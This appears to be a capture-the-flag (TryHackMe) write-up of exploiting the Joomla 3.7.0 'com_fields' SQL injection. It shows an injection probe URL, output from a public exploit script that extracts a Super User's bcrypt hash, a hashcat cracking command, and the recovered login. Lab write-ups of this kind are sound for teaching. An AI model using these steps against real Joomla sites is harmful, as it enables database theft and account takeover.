

## Joomla! 3.7.0 - 'com_fields' SQL Injection 

* check if it's vulnerable
* `http://10.10.22.191/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27`


```
500 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 9 
```

* looks like this is vulnerable, let's try a  `joomblah.py` script we found https://github.com/XiphosResearch/exploits/blob/master/Joomblah/joomblah.py 

## Joomblah.py
 ```
[-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

* `hashcat -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt`
```
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm:spiderman123

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p...BtZutm
Time.Started.....: Wed Apr 20 13:38:25 2022 (36 secs)
Time.Estimated...: Wed Apr 20 13:39:01 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     1274 H/s (9.32ms) @ Accel:32 Loops:16 Thr:24 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 46848/14344384 (0.33%)
Rejected.........: 0/46848 (0.00%)
Restore.Point....: 46080/14344384 (0.32%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1008-1024
Candidate.Engine.: Device Generator
Candidates.#1....: jakob1 -> smile4ever
Hardware.Mon.#1..: Temp: 51c Fan: 58% Util: 99% Core:1920MHz Mem:6794MHz Bus:16
```

* we can log into joomla using `jonah:spiderman123`